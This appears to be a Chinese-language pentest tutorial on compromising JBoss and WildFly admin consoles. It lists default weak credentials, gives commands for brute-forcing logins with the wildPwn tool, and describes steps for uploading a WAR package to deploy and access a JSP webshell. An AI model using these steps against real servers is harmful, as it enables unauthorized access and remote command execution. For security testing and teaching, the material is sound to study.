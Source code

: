 ### Jboss < 7.x默认管理控制台弱口令爆破

`jboss 6.x-7.x`版本的默认管理控制台入口,因此版本默认没有强制复杂密码策略,所以比较容易出现弱口令。
Jboss 的常见弱口令:

```
admin:admin
admin:jboss
admin:password1! 
jboss:admin 
admin:ezoffice
```

### Jboss > 7.x 和WildFly默认管理控制台弱口令爆破

`jboss`从8开始正式更名为`WildFly` ,在`WildFly8`之后的版本添加控制台用户时默认就会执行强密码策略,所以相对于之前低版本的`jboss`,针对`WildFly`之后版本的弱口令推荐`wildPwn`这款爆破工具

```
# git clone https://github.com/hlldz/wildPwn.git 
# cd wildPwn
# python wildPwn.py -m brute --target 192.168.3.108 --port 8080 -user userList.txt -pass passList.txt  
```

![image.png](jboss_getshell.assets/1592147170_5ee63ce283128.png!small)

### WildFly默认管理控制台部署webshell方法

1、通过账号密码登到 `wildlfy` 控制台页面后,找到 `Deployments` 选项,上传`war`包
![image.png](jboss_getshell.assets/1592147178_5ee63cea7d205.png!small)2、此处勾选启用`Enable`
![image.png](jboss_getshell.assets/1592147187_5ee63cf354f52.png!small)![image.png](jboss_getshell.assets/1592147194_5ee63cfa3de43.png!small)3、提示成功后会直接部署到`jboss`根目录下,访问`http://127.0.0.1:8080/cmd/cmd.jsp`
![image.png](jboss_getshell.assets/1592147208_5ee63d0802b06.png!small)4、访问木马webshell
![image.png](jboss_getshell.assets/1592147218_5ee63d12f1d25.png!small)


